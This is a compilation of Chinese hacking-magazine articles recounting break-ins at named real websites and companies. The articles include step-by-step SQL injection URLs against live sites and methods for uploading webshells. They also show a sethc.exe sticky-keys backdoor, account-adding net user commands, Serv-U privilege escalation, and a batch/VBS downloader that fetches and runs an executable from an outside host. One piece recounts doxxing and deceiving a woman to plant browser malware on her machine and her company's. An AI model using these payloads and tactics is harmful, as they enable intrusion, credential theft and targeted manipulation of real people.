发现在“终端端口-自动登录”里竟然明文显示出了管理员的账号和密码，如图21。读取注册键值 `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\PortNumber`。

看来有戏了，服务器的组件支持 `wscript.shell`，能够执行 CMD。虽然服务器是在内网中的，但我们可以使用 LCX 映射出来，然后在本地进行连接。

```
lcx.exe --listen 51 3389
lcx.exe --slave 你的IP 51 内机IP 3389
```

接下来打开远程桌面，连接本地 `127.0.0.1` 的 51 端口，输入得到的账号和密码，提示错误。我们不是还有 FTP 吗？而且还有 C、D 盘的权限，看看是否能够得到对方管理员的 SAM 密码，然后在本地进行爆破，但是很遗憾无法下载。

### 五、再次突破

还是回到 Webshell 里慢慢寻找能够利用的地方，找了好久，后来我又想到了前段时间玩的很火的按 5 下 SHIFT 的后门。


图21

我们现在有 C 盘的权限，不如也来替换 `C:\WINDOWS\system32` 和 `C:\WINDOWS\system32\dllcache` 下的 `sethc.exe` 试试吧。我们就用 `cmd.exe` 进行测试，如果能够替换就直接添加一个管理员账号。连上 FTP 替换好文件，记住要在替换之前改 sethc.exe 的名字，备份下 sethc，然后再进行替换。在远程桌面上连接服务器，按要求按了五下 SHIFT 键，CMD 出现了，成功地创建了用户，如图23。使用新建的账户连接服务器，我终于拿到服务器的最高权限了，这台服务器还是双核的哟。这次的入侵总算是大功告成了！


图22

### 六、入侵总结

本次入侵并没有使用什么新的技术，主要的是结合服务器的缺陷和服务器上所安装的软件以及利用微软设计上的小缺陷（SHIFT 粘滞键）拿下了服务器。虽然拿下了服务器但是我并没有搞什么破坏哦，不过对于继续渗透整个清华同方的整个网络……

限于篇幅，这次就不多介绍了，如果有什么突破的话我以后会继续为大家奉上的。（文中涉及到的“D 注入工具、V2.32/专用 ASP 木马”已经收录在光盘中）

## 某数据库密码漏洞来批量获取 WEBSHELL

低调小飞


前段时间在网上查看网站源码，无意间看到了“亿联新闻发布系统”，闲来无事就随便看了看，结果可想而知，国内 95% 以上类似于这种非正规开发公司的系统都存在漏洞（其实就连正规公司开发的系统也基本上都存在漏洞），本文就讲讲该系统的漏洞发现及利用吧。

### 一、漏洞分析

对网站进行检测发现不存在注入漏洞，我到网上下载了一套“亿联新闻发布系统”，然后在本地进行测试，并对网站的每个页面的代码进行了分析。经过分析后发现 shownews.asp 页面里存在注入漏洞，代码如下：

```asp
<%owen=request("id")%>
sql="select * from news where id="&owen
```

request 取值以后没有经过任何过滤就直接到了 SQL 数据库查询语句，这样的漏洞就产生了。但是在页面代码中已经包含了 `<!--#include File="inc/Check_Sql.asp"-->`。该文件是常见的通用防注入代码，所以普通的手动注入是没有用的，那么下面就来借助一款工具来绕过防注入代码接着注入！

### 二、实战演示

纸上谈兵终觉浅，现在就来给大家实战演示，首先我们直接在地址栏内输入网址：http://www.inbiz.cn/YANSHI/shownews.asp，大家来看下结果，如图1。


现在我们就可以利用 Cookie 注入工具直接得到用户名和密码，需要用到浏览器 GreenBrowser 中的 JSCookier 插件，如图2。我们简单说一下此浏览器的使用和插件的安装：浏览器下载地址为 http://www.morequick.com/indexgb.htm。安装完后浏览器默认情况下没有安装 JSCookier 的插件，需要手动下载安装，其下载地址为 http://www.morquick.com/PluginGB.htm，下载“Cookie 读写插件”安装即可。

在 GreenBrowser 浏览器中打开漏洞页面 http://www.inbiz.cn/YANSHI/shownews.asp，选择“工具”→“扩展工具栏”→“jsCookier”，进入 JavaScript Cookier 页面，如图3。


具体写入以下的内容：

```text
Cookie名称: id
Cookie属性: -1 union select 1,username,password,4,5,6,7,8,9,10 from admin
Cookie有效期: （一分钟）
```

好了，输入完毕后，我们陆续点击“有效期（一分钟）”→“源读入”→“写入”，如图4。


操作完以后我们再回到刚才打开的 http://www.inbiz.cn/YANSHI/shownews.asp 页面，刷新一下大家就可以看到结果了，如图5。我们已经看到了用户名和密码的 MD5 值，那么接下来要进行的操作我想大家都熟悉不过了，登录 www.cmd5.com 破解加密的 MD5 值。破解出来后再到 `http://www.inbiz.cn/admin/Login.asp` 登录进入后台。……下面就使用挖掘机来帮我们完成这个工作，这里用的是“挖掘机 v1.1”，顺便说下挖掘机的简单设置……添加后缀选择“/shownews.asp”。


### 三、思路扩展及 WEBSHELL

通过上面的演示我们已经明白了如何对存在 Shownews.asp 页面的网站系统通过 COOKIE 注入漏洞来进入网站后台……从而得到大批的……

### 四、总结

通过以上的漏洞分析和实战演示，相信大家已经学会了这种方法……提高自己的分析能力。这只是一个小小的思路，希望能给大家在学习网络安全的道路上提供一点帮助。

## 不是合法的黑客

说道当前网络最流行的入侵方法莫过于 SQL 注入以及旁注……看不见某人拿到了密码却进不了后台，又被一菜鸟通过旁注提权给解决了……

相信很多人都知道旁注的原理，顾名思义就是从旁边来攻击……然后上传木马控制整个虚拟主机。


## 一个人的战争

这样我们的目的也就达到了。近日，一好友说他以前的一个合作伙伴自己出来搞公司了，接了一个站，做得很精美，叫我帮着测试一下安全性。该网站确实做得很不错，打开首页就是一段很有诗意的 FLASH……进到网站内来看看吧，如图1。


网站使用的是 ASP，洪水有源头（这年头，只要是 ASP 就基本等于有漏洞了）。在对整个网站的结构进行分析后知道，它是一个展示平台和一个文章系统组成的。先查看连接，看看是什么系统的内核，在 baidu 和 google 上进行搜索，除了可以找到它的网站，就再也找不到别的信息了，看来是自己开发的。再看看有没有注册和上传的地方，这些路也都断了，由于实力有限，只好使用工具来进行检测了……

既然拿不下来就先欣赏一下他们的产品吧……不知这里有没有漏洞。谁想到和上述一样，查了大半天也没有找到注入点。终于找到了，如图2。


后台路径是 manage/Login.aspx，后台是 aspx 的。看来安全性也不会太差，我测试了几个常见的弱口令，依然没有办法。看来只有使用旁注了。那就登录 http://www.seologs.com/ip-domains.html 进行查询，但结果却又如此令我失望，如图3。

这两个域名指向的都是同一个站点，看来要想在脚本攻击上有所作为是非常困难了，先放一放吧。两天后，我突然想到了能不能在服务器上做点什么呢？说干就干，使用 SuperScan 扫描了一下，还好没有安装防火墙，很快就扫描完成了，开了 10 个端口，如图4。


记得曾经有人说过，最小的服务就是最大的安全……输入 `net user guest /active:yes`、`net user guest 888888`、`net localgroup Administrators guest /add` 等命令后，将 GUEST 提升为管理员并开启 3389。

最后发现这是台处于内网中的主机……安全是一个体系，只要一个地方出现漏洞，整体防御就可能失效。

> （文章中涉及到的阿D注入工具、SuperScan 3.0 已收录）


## 0day之动网后台注入漏洞

在上期杂志中我们介绍了动网 8.1 的注入漏洞，本期继续分析。本文以动网 8.1 Access 版为例，漏洞位于 `Admin/admin.asp`（约第75行），修改管理员密码时对管理员 ID 过滤不严导致注入。

```vb
Subpassword()
Dim AcceptIP, i, AddIP, rs
Set rs=Dvbbs.Execute("select * from "&admintable&" where id="&request("id"))
oldpassword=rs("password")
oldaduser=rs("aduser")
AcceptIP=rs("AcceptIP")
```

可清楚看到第75行 `... where id="&request("id")` 直接拼接参数，导致注入。测试时进入后台“管理员管理”，查看管理员属性（图1），再构造 `action=password&id=1` 及 `id=1'` 等 URL，可触发注入（图2）。

注意：工具检测通常需先登录网管后台。Access 数据库可尝试直接读取用户名和密码；MSSQL 数据库可尝试利用 SA 权限提权。具体方法随后介绍。


注入工具在“扫描注入点”的检测网址栏输入后台地址并直接登录到后台，如图3。

不过就算访问漏洞页面阿D也无法提示出漏洞信息，这是因为原始连接的最后一项参数“action=password”不存在注入，而注入工具一般都仅仅检测最后一项参数追加“' or 1=1”来探测是否存在注入（所以我经常说使用工具不如手工准确），因此我们还需要手工将连接复制下来，更改为“http://59.151.29.110/gameixpub/Admin/admin.asp?action=password&id=1”，然后在阿D的注入检测一项中写上该地址，然后进行检测，如图4。

探测到数据库为 Access，并且存在注入后我们就可以检测表了，但无法找到 Admin 表，这是因为阿D设置里面没有 Dv_Admin 表的检测，我们还需要到设置那里去手工添加一个 Dv_Admin 的表，如图5。

然后返回到刚才的地方重新检测，一下子就读取出了 admin 信息，如图6。可能你会说读取 admin 有什么用，我们已经进入了后台，也不是多此一举？那倒未必，还记得 Access 下的沙盒模式入侵吗？是的，如果我们有对方服务器的 MSSQL SA 权限就可以修改注册表，然后使用沙盒模式进行直接服务提权，因为测试不方便就暂且不讲了，大家有兴趣的可以去网上搜索一下沙盒模式的攻击方法。很简单的，SA 改注册表打开 VBA 执行，然后直接在 Access 下执行 CMD 命令添加用户。

再说说 MSSQL 数据库，方法跟上面的一样，登录后台，然后修改一下 URL 地址并进行检测，工具会判断出 MSSQL 数据库，然后工具上有 MSSQL 的提权等功能，这些方法在以往的文章中已经大量提及过了，为了节约篇幅，本文也不做过多叙述。

虽然是在拿到“管理员权限后”的注入，但是在 Access 下和 MSSQL 下都可以通过这个漏洞来执行 SQL 语句以达到提权的目的，其实该漏洞与其它漏洞是一样的使用方法，仅仅是该漏洞需要登录后台而已。

至于修补该漏洞的方法如下，我们找到以下代码：


图4


图5


图6

```vb
Dim AcceptIP,i,AddIP,rs
set rs=Dvbbs.Execute("select * from "&admintable&" where id="&request("id"))
oldpassword=rs("password")
oldadduser=rs("adduser")
AcceptIP = Rs("AcceptIP")&""
AddIP = Dvbbs.UserTrueIP
AddIP = Left(AddIP, InStrRev(AddIP, ".")-1)
AddIP = Left(AddIP, InStrRev(AddIP, ".")-1)
AddIP = AddIP & ".*.*"
```

将其修改为以下代码：

```vb
Dim AcceptIP,i,AddIP,rs,id
id = request("id")
If Not IsNumeric(id) Then id=0
set rs=Dvbbs.Execute("select * from "&admintable&" where id="&id)
oldpassword=rs("password")
oldadduser=rs("adduser")
AcceptIP = Rs("AcceptIP")&""
AddIP = Dvbbs.UserTrueIP
AddIP = Left(AddIP, InStrRev(AddIP, ".")-1)
AddIP = Left(AddIP, InStrRev(AddIP, ".")-1)
AddIP = AddIP & ".*.*"
```

此修改仅仅是将参数限制为数字类型即可，因为这里只有可能是数字，所以连过滤都省了。

（文字中涉及到的阿D注入工具 2.0 已经收录在光盘中）

## 千洞之网——动网又出新漏洞

□ 潘原长风


众所周知，大名鼎鼎的动网是出了名的“弱”网，这不又给菜鸟们献上了一份大礼——一个最新的注入漏洞。ASP 版论坛一直是动网的主打产品，但就在去年，动网开始了 PHP 版本论坛的开发，现在都推出到 2.0 版本了。听说动网 PHP 2.0 论坛系统无论是从内核，还是到前台模板都是一个质的提升哦！而以漏洞出名的动网这次会不会让众多的小菜无洞可钻呢？

大家先来看看 PHP 2.0 的 DVBBS 长什么样吧（可以在 google 中以“Dvbbs.PHP 2.0 2000 - 2006 Dvbbs.Net”为关键字进行搜索），如图1。界面挺不错的，很漂亮，只可惜是金玉其外，败絮其中啊，这次问题主要是出在 `/boardrule.php` 文件中：

```php
function brule(){
  global $dv,$db,$boardid,$lang,$groupboardid;
  $groupboardid=$_GET['groupboardid'];
  if(!empty($_GET['groupboardid'])){
    $rules=$db->scalar("select rules from {$dv}group_board where id={$groupboardid}");
  }else{
    $rules=$db->scalar("select rules from {$dv}board where boardid='{$boardid}'");
  }
}
```


大家看出来了吧，以上代码直接获得变量 groupboardid，不为空就直接带入查询，从而导致了数据库注入！我在 google 上搜索了一个采用这套程序的网站 http://www.nvzhuang.cn/bbs/ 。

测试语句为 `http://www.nvzhuang.cn/bbs/boardrule.php?groupboardid=12345/**/union/**/select/**/version()/*`，执行后得到数据库版本；变量 groupboardid 可为任意值。还可通过 `...select/**/user()/*` 等方式继续查询信息。


通过 `http://www.nvzhuang.cn/bbs/boardrule.php?groupboardid=12345/**/union/**/select/**/database()/*` 查询到数据库，再利用这些信息查询 admin 表中 id=1 的管理员用户名和密码。相对于繁琐的手工方式，使用工具更便捷。


工具使用方法：在 URL 输入目标地址并点击“Attack”。若弹出“存在漏洞，可以搞一下”的提示（图4），说明可利用，否则表示不存在漏洞。


检测同时程序会自动猜解数据库版本等信息，默认表是 admin、id=1，也可猜解 user 表用户信息。点击“Get”可得到后台用户名和密码哈希；文中示例提到 `admin` 与一段 MD5 值，可借助在线 MD5 查询尝试还原明文。最后可据此尝试登录前后台（若前后台密码不同，则工具猜解的是后台密码）。


既然进入了后台，那么接下来要关心的就是怎样得到 shell 了。其实动网的风格就是决不为难我们小菜拿 shell。打开“外观风格”中的“风格界面模板总管理”，如图8，创建一个新模板，如图9、图10。编辑我们刚刚新建的新模板，输入我们的 PHP 木马，如图11。注意上面的木马相对地址哦，然后保存模板。访问刚才新建的模板文件，成功得到了 webshell，如图12。


至此，动网 PHP 2.0 的漏洞情况和详细的利用过程以及如何在后台获取 shell 都已经给大家介绍完了，这个看似功能强大的 PHP BBS 也传承了动网一贯的漏洞百出的精神！这次又有无数的网站要遭殃了，最后祝大家抓鸡愉快！

（文章中涉及到的漏洞利用工具已经收录在光盘中）

## phpcms 漏洞利用全过程

txcbg

### 一、漏洞简介

PHPCMS 网站管理系统是一个基于 PHP+MYSQL 的全站生成 HTML 的建站系统，现在有好多门户网站、行业网站都是使用的 PHPCMS，可惜的是前几天它却暴出存在严重的注入漏洞。漏洞影响的版本为 2007SP5、SP6，漏洞主要存在 `/formguide/include/tag.func.php` 文件中，相关代码如下：

```php
global $db,$MOD,$MODULE;
$formid = (isset($formid)||$formid=='') ? 0 : $formid;
$query = "SELECT * FROM ".TABLE_FORMGUIDE." WHERE formid=$formid limit 1";
$r = $db->get_one($query);
if(!$r) ...
```

```php
echo $LANG['not_exist_form'];
return '';
```

变量 formid 没有赋值并且过滤不严就带入了查询，导致了存在注入漏洞，漏洞测试代码如下：`http://phpcmsroot/formguide/index.php?formid=1/**/and/**/1=2/**/union/**/select/**/1,username,3,4,5,6,7/**/from/**/phpcms_member/**/where/**/userid=1/%`。

### 二、利用漏洞拿 webshell

开 Google，这里我没有使用常规的“powered by phpcms 2007SP5 SP5(SP6)”进行搜索，也没有使用我看的那个教程中作者所说的从 phpcms 官方网站上的“客户案例”中介绍的网站下手……我选择了 `myitem.php` 这个文件，搜索“inurl:myitem.php”的结果如图1所示。


图1

虽然搜索出来的结果不是太多，但估计被人测试过的几率较小很多。接下来打开漏洞利用工具，按提示进行检测，当检测到 `www.eee123.com` 时，工具提示存在漏洞，如图2。


图2

点击“第一步获取管理员名”，再点击“第二步获取管理员密码”，就爆出了管理员用户名和密码的 md5 值，如图3。


图3

直接点工具中的“反查 MD5 值”，就可以自动到 `www.cmd5.com` 上查询密码了。我的运气不错，密码查出来了……使用得到的用户名和密码直接去 `www.eee123.com/admin` 登录，成功进入后台，如图4。


图4

phpcms 的后台功能是非常强大的，至于得到 webshell 的方法超级简单：先选“系统设置”，再选“网站设置”中的“允许上传的附件类型”这一小项，在其中添加 php 格式，如图5。


图5


图6

接着选择“系统工具”下的“在线文件管理器”，在“上传文件”处选择一个 php 木马直接上传，如图6。我随便上传了一个名为 `test.php` 的 php 木马，提示上传成功，访问后成功得到了 webshell，如图7。

phpcms 官方于 3 月 8 号已经抛出了补丁程序，建议网站使用 phpcms 系统的管理员尽快打上补丁……


图7

（文章中涉及到的工具 phpcms0dayEXP 已经收录在光盘中）

**小编点评：**如果不看工具的话，还真没发现这漏洞的发现者是一朋友，而编写工具的也是一朋友。这是一个很常见的 id 未过滤漏洞……只是 PHPCMS 居然还会出现这样低级错误，真让人匪夷所思！

## DedeCms V4.0 注入漏洞

hackest [H.S.T]

DedeCms 即织梦内容管理系统，其最新版已发布到 5.0，不过这次的漏洞只针对 OX V4.0 版本有效。漏洞文件为 `buy_action.php`，该文件在对 pid 的值传递没有做充分过滤，导致了 SQL 注入漏洞的产生。去官方网站下载了最新版的 OX V4.0，本地架设环境测试。本文着重介绍漏洞的利用过程，至于漏洞的具体成因将不作详细讨论，有兴趣的朋友可自行阅读漏洞文件代码。可以通过搜索关键字“Power by DedeCms”找到大量使用这套程序的网站。


图1


图3

### 一、注册用户

本机注册地址为：http://127.0.0.1/dedecms/member/index_do.php?fmdo=user&dopost=regnew，填入相关信息，注册即可，如图1。

### 二、爆管理员用户名

注册好了之后就登录系统，提交如下地址即可直接爆管理员的用户名：

```text
http://127.0.0.1/dedecms/member/buy_action.php?product=member&pid=1%20and%201=11%20union%20select%201,2,userid,4,5%20from%20%23@__admin/*
```

成功爆出了管理员的用户名（hackest），如图2。


图2

### 三、爆管理员密码

接下来是直接爆管理员的密码 MD5 值了，提交如下地址：

```text
http://127.0.0.1/dedecms/member/buy_action.php?product=member&pid=1%20and%201=11%20union%20select%201,2,substring(pwd,9,16),4,5%20from%20%23@__admin/*
```

### 四、登录后台拿 Webshell

怎么样，非常简单吧？到这里就已经可以拿着 MD5 值直接去查询密码明文了，这里的 eee01c9ab7267f25 还原成明文即是 hackest。下一步就该登录后台拿 Webshell 了。后台登录地址为（在 URL 后加上 dede 即可自动跳转至后台登录页面）：

```text
http://127.0.0.1/dedecms/dede/login.php?gotopage=%2Fdedecms%2Fdcde%2F
```

用户名和密码均为 hackest，成功登录后台，如图4。然后打开“模板管理”页面，直接上传你的 PHP 马即可，如图5。


图4


图5

直接在后台点击该文件访问即可跳转至 Webshell 的登录入口，输入密码进入即可，如图6。


整个过程非常简单，基本上没有什么技术含量可言。如果菜鸟们觉得手动很麻烦的话，不妨试下一个针对此漏洞的利用工具，界面如图7。怎么样，很贴心吧，从注册到登录后台的“一条龙”功能！

### 五、漏洞修补

官方已经给出了补丁，不过没有集成到 4.0 的安装程序包里面，用补丁包里的 buy_action.php 文件覆盖原文件即可。（文章中涉及到的工具 DedeCms 最新注射漏洞利用工具、buy_action.php 补丁文件已经收录在光盘中）

## 提权，剥脱了 Serv-U 6.X 通杀漏洞

Bink [V2]

前天有位朋友 QQ 上问我是否知道最近出的 Serv-U 6.X 版本的通杀本地提权漏洞，我说不清楚，朋友也说不晓得是真是假。随后我让他在本地电脑上进行了测试，结果果然可以提权成功，测试环境为 Windows 2003 + Serv-U 6.4 中文版，下面就是详细的利用方法。

打开 Serv-U 6.X 管理程序，添加用户 bink，密码 bink，用户权限设置参考一般的 IIS 设置，仅允许访问 D 盘的某个目录，然后将此 svu.exe 程序存放在安装有 Serv-U 服务器上的任何拥有执行权限的文件夹中，比如 C:\svu.exe，然后执行 `c:\svu.exe -i 127.0.0.1 -u bink -p bink -a c:`，就可以将指定用户权限提升为超级管理员，并具有 C 盘的完全权限。

```bash
svu.exe -i 127.0.0.1 -u user -p pass -a c:
```

- `-i` 参数后面跟 Serv-U 服务器的 IP 地址（似乎还可以远程提权）
- `-u` 参数后面跟需要提权的用户名
- `-p` 参数后面跟需要提权用户的密码
- `-a` 参数后面跟需要指定权限的目录（如 c:）

假设现在我的网站使用的是虚拟主机服务器，那么我们只需要将 svu.exe 上传到服务器目录中并保证可执行权限，再在木马自带的 WS 里执行命令即可完成提权。


通过命令执行后，可以将该服务器的 FTP 受限用户提升为超级管理员权限，并且具有 C 盘任意权限。接下来可继续添加系统用户登录 3389 等。

我特意在 Google 搜索了最新的 Serv-U 6.4.0.6，然后下载安装并添加用户 bink，密码 bink，目录锁定在 D:\wwwroot\，不可跨目录，仅普通用户权限，如图1。然后将 svu.exe 存放到 E 盘相关目录继续测试。


根目录下，并在 CMD 下执行 `e:\svu.exe -i 127.0.0.1 -u bink -p bink -a c:`，返回的结果如图2所示。接着我们运行 FlashFXP 软件进行连接，如图3；连接后目录自动锁定到了 C 盘下，如图4。我们找个 C 盘下的文件改改名称，看是否有权限，修改成功，如图5。最后说明一下，测试时执行提权命令后从 Serv-U 上看到的账户信息没有改变，还以为漏洞已经被封杀，后来用 FTP 连上去看才有后面的测试。到目前为止，该漏洞仍然可用。（文章中涉及到的溢出程序 `svu.exe`，已经收录在光盘中）


## 社工侵入金山社区内幕


### 一、踩点

事情的起因是这样的，我前段时间一直在玩金山公司旗下的一款游戏（春秋 Q 传），在经历几次升级后，由于游戏不平衡度越来越高，我和几个朋友在金山社区投诉无果，于是他们就怂恿我入侵金山社区拿到管理员权限。首先通过搜索打开金山社区的网址 `http://bbs.xoyo.com/`，整站为 DZ6.0 的论坛系统（图1）。

### 二、分析

既然我的目的是拿到这个社区的管理员权限，那就可以利用欺骗来获取管理员账号密码。根据社工的六大定律，我初步设定了社工目标：目标必须具备一定条件和欺骗进行的社会互动；与目标进行联系，利用共同爱好增加信任度；在信任增加后，发出一些目标的私人信息引起其好奇心，最终把目标引入我放有网页的页面上。

### 三、准备工作

我们先进行第一步，确定一个安全意识不是太高的目标。选定性别：女。经验告诉我，在这样的论坛里，找一个女的进行社工远比找一个男的社工要简单。于是从论坛春秋 Q 传版块的版主入手，搜索其 ID 并收集信息。经过一段时间搜索后，发现该版块一女管理员信息，她在该社区权限是超级管理员（图3）。


我手头又没有 DZ6.0 的 0DAY 程序，看起来想从 BBS 入侵很难了；而金山是一个杀毒软件厂家，自身服务器安全应不在话下，所以放弃了从脚本、系统等漏洞进行入侵的尝试。我又到 `http://www.114best.com/ip/` 上查了下绑定在该主机上的网站（图2），居然一个也没有，看来旁注无望。于是决定从社工方向下手。


而从百度搜索出来的她的 ID 资料上，我发现了一篇对她进行采访的帖子（图4）。帖子里暴露了很多信息，她工作在亚丁（也就是开发春秋 Q 传的公司，金山旗下），如图5。从采访中也能判断出其他可利用信息，她的安全意识并不很高（图6）。


图4


图6

不过从这篇采访来看，她的联系信息泄漏得很少，而从百度搜索的资料上来看，她还有好几个博客（图7）。


图7


图8

但我打开进去后，发现大部分都是一些游戏文章，她的联系资料却暴露得很少。QQ、MSN、邮箱什么的都不知道，但我却找到了另外一个有用的信息（图8）。

只不过这个发布租房信息的人是否就是我的欺骗目标呢？我立马做了个测试，无限邪恶地拿起一同学即将淘汰的手机卡，拨通了上面的电话，嘀嘀，然后马上关掉。看来这个电话是通的，并没有停机或者空号。我又发了条短信，短信内容如下：果汁吗？果汁为此女的昵称，社区里的人经常这样称呼她，而从采访文章上也确认了在生活中也有许多人这样称呼她。

然而不一会儿，对方就发回了信息：嗯！你是？哈哈，看来这条租房信息上的资料真是她的了。现在我有了她的电话，也知道她姓赵了。剩下的就是怎么跟她沟通了，此女一定有 QQ，我就不信真有女的只玩游戏不聊 QQ 的。但这个 QQ 怎么入手呢？难道发短信去问，这样未免太明显了。她既然刻意不公布自己的 QQ，那知道她 QQ 的人应该都会比较信任。就像我自己的 QQ 很少公布，能加上我的人我一般都会跟她聊几句。想知道 QQ 还不简单，DZ6.0 可是能注册特殊字符用户名的啊，而我就注册了一个（图9）。


图9

此 ID 原为该论坛一管理，估计是此女的上司或者朋友。那现在怎么欺骗获得 QQ 呢？当然不能直接索要 QQ 了，也不能说自己 QQ 丢了、换 QQ 什么的，那样一下子就会被发现的。我是这样写的：“果汁把你的 Q 号码给我下，今天上 QQ 发现上面的备注都不见了，都闷啊，找不到谁是谁了”（图10）。


图10


图11

我相信利用 QQ 备注这个理由已经足够完美了，而且也确实 QQ 备注不见的话，要想在一堆人中找个人也很难，这样发个短信很正常、很合理。然后我就去搭建一个钓鱼页面了。这个页面的搭建是很简单的，由于跟本文没什么关系，我就大致说下：在本机搭建一个 IIS 环境，打开花生壳，让我的域名指定到本机，然后建立一个 index.asp 页面，在里面嵌入网马（网马的配置就不说了，所使用的网马为 realplay 马，因为对方为 MM 嘛，而且经常写策划文案之类的，所以不可能是 VISTA 的系统，音乐马的几率很大），并写入代码让其实现打开这个页面后直接跳转到我在百度的博客。详细的代码，大家可以参考第一期 14 页阿布所说的那个跳转，然后把这个页面挂上 IIS。我在本地测试了一下，然后很邪恶地把 crazyyxb.vicp.net 挂到了 QQ 的资料上（图11）。接下来就是关机睡觉，毕竟今天发了个短信，怎么能马上就撒谎呢。

### 四、欺骗社工

两天后当我打开社区登录，这位 MM 回了信息（图12），成功得到了对方的 QQ，并加上了对方。具体与 MM 的聊天记录，大家可参见截图（图13、图14、图15、图16）。


图12


图13


图14

在 MM 的面前，我把挖到她资料的方法都说了，这一方面是得到她的信任，也让她认为我是一个无所事事的黑客。而后面威胁入侵他们服务器的话，我估计激起了她的安全意识。大家可以看到，我说这话的时候，她停顿了下而且有微弱的反应，而且她说她有一批小黑网友，而这正是我需要的。当你的一女同事跟你说有一黑客说要入侵你们公司的话，你是怎么想的呢？我猜金山的技术人员做的应该跟我差不多吧：打听一下这个人物是什么，摸摸底。而我的主页就写在我的 QQ 资料处，我可以肯定这位 MM 一定很快地把我的主页告诉了这几个所谓的小黑们了。当这个不弹不跳的网马出现的时候，我的过金山的小马已经运行了，话说那些技术人员应该不会使用瑞星吧。剩下的就留给大家去想了。这次欺骗我一共获得了 MM 个人电脑的权限，还有一台公司电脑的权限，估计是谁在公司开启了我的钓鱼网站。至于当初的想法准备拿到管理员账号密码等的事情我早就忘了，我完全沉浸在社工的刺激过程中。

## 小编点评：

> 应该算是一篇非常经典的社会工程学利用的文章。其实社工和技术入侵完全是差不多的，因为共同点都是为了达到目标而寻找人类常犯的低级错误，然后运用自己的推测和已知技术之间的配合而达到我们的目的。大家可一定要对社会工程学重视起来。


图15

## 黑客大揭秘之：什么是 SYN 扫描

这种扫描方式也被称为“半打开”扫描，因为利用了 TCP 协议连接的第三次握手，并且没有建立一个完整的 TCP 连接，所以它的速度较快但准确率却有所下降。实现方法是向远端主机某端口发送一个具有 SYN 标志位的 TCP 数据包；如果主机反馈一个 SYN/ACK 数据包，那么这个主机正在监听该端口；如果反馈的是 RST 数据包，则说明主机没有监听该端口。


图16

## 漏洞修了发现，还可以“创造”

### ——从构造注入点到差异备份提权

路人甲


对于利用差异备份来获取 Webshell 的方法，我想大家都会，但是对于如何利用差异备份来得到系统权限，很多人可能知之甚少。本文通过一次本地测试，演示如何从构造注入点开始，最终利用 DBOWNER 权限完成差异备份提权。

首先安装 MSSQL2000，随后构造注入点，并将注入点转化为具有 DBOWNER 权限。打开 SQLSERVER 企业管理器，创建名为 lurenjia 的数据库，并在该库中新建 admin 表，插入 id 列（默认为 1）。


创建完成后，打开表返回所有行，在 id 下添加记录。设置数据库安全性登录，选择 SQLSERVER 身份验证，输入名称和密码 lurenjia；切换到数据库访问选项，勾选新建数据库 lurenjia，并允许 DB_OWNER 角色操作该数据库。

到此数据库操作部分完成，接下来编写脚本构造注入点。需要两个文件：数据库连接文件 conn.asp 和注入点文件 test.asp。


```asp
<%
dim conn
dim connstr
connstr="provider=sqloledb;driver={sql server};server=127.0.0.1;uid=lurenjia;pwd=lurenjia;database=lurenjia"
set conn=server.createobject("ADODB.CONNECTION")
conn.open connstr
%>
```

文件：conn.asp

```asp
<!--#include file="conn.asp"-->
<%
dim rs,strSQL,id
set rs=server.createobject("ADODB.recordset")
id=request("id")
strSQL="select * from admin where id=" & id
rs.open strSQL,conn,1,3
rs.close
%>
```

文件：test.asp

将两个文件放入网站目录，访问 `http://127.0.0.1/test.asp?id=1`。可直接提交注入语句进行检测，确认注入点成立并切换到 DBOWNER 权限，数据库名为 lurenjia，支持多语句。


下面就是本文的重点了，大家都知道通过 DBOWNER 的注入点，我们可以使用列目录进行差异备份来得到 Webshell，然后再想办法提权。而这次我们直接通过差异备份把木马写入自启动目录中来得到系统权限。

Windows 服务器版操作系统对于 DBOWNER 数据库来说默认有两个自启动目录具有写权限……我们就是要通过差异备份一个 BAT 文件到这个目录下，从而达到提升系统权限的目的。

首先将我们事先准备好的木马 1.EXE 上传到我的空间，其 URL 地址为 `http://bluekiss.net.cn/1.exe`，然后把该地址套用在如下的写 bat 代码里：

```bat
echo Set P=createObject("Microsoft.XMLHTTP")>k.vbs
echo P.Open "GET","http://bluekiss.net.cn/1.exe",0>>k.vbs
echo P.Send():set G=createObject("ADODB.Stream")>>k.vbs
echo G.Mode=3:G.Type=1:G.Open()>>k.vbs
echo G.Write P.ResponseBody:G.SaveToFile "1.exe",2>>k.vbs
k.vbs
1.exe
```

要注意我们上传文件的文件名一定要与代码里所执行的文件名保持一致……接着将上面的代码连同回车复制到字符转换工具，将其转化为 16 进制，结果如图6所示：

```text
0x130A0D0A6563686F2053657420503D6372656174654F626A656374...（十六进制长串）
```


记得在转换后的代码前面加一个“0x”，接下来就开始准备我们差异备份的语句吧。

```sql
URL_attach database lurenjia set RECOVERY FULL
URL_exec ...
URL_create table cmd (a image)
URL_backup log lurenjia to disk='c:\cmd1' with init
URL_insert into cmd(a) values (0x130A0D0A...)
URL_backup log lurenjia to disk='c:\Documents and Settings\All Users\开始菜单\程序\启动\1.bat' --
URL_drop table cmd --
```

上面的 URL 是指 `http://127.0.0.1/test.asp?id=1` 这个地址，实际操作时需要将上面的 URL 替换成我们所使用的地址。最后将上面准备好的语句在浏览器里逐句执行……


最后，我们重启一下电脑，木马就被成功执行了（图8）。


当然在实战中我们是看不到这个 1.bat 的……最好拿一个 Webshell 回来，到该目录查看是否有 1.bat 这个文件并且代码是否写入成功来证实。

（文中涉及到的工具已收录在光盘中）

## 当神话不再是一个神话
### ——彻彻底底入侵台湾神话官方网站

明镜止水[54H]


说起神话这款网络游戏，我想很多人都玩过吧。此次我们就把入侵的目标锁定在台湾神话官方网站上，其网址是 www.ryl.com.tw，IP 地址为 219.84.165.10。

打开网站简单地看了下，整个站点是由 Windows 2000 + IIS5 + ASP + MSSQL 搭建而成的。对于这类大型的游戏站点，常见的 ASP 注入我想是不会存在的。我们转而从同网关主机、嗅探与端口信息入手。


拿出 x-scan 对整个网段扫描，未扫出明显弱口令漏洞，但发现了 sa 权限注入点。随后执行 ipconfig 与 netstat -an，确认目标与肉鸡处于同网关，并继续收集开放端口与连接状态。


还开了 3389 端口，但直接连接不稳定，于是通过上传工具与 webshell 继续尝试，先拿 guest 账号，再逐步转向更高权限。

目标再次锁定 219.84.165.10。通过 telnet 判断 21、80、3389 端口可达，随后实施 ARP 欺骗并持续嗅探，尝试获取后台登录信息与密码。


多次尝试后发现密码存在规律，最终成功登录 219.84.165.10 并进入网站目录，上传 ASP 木马，取得官方站点 webshell。

```asp
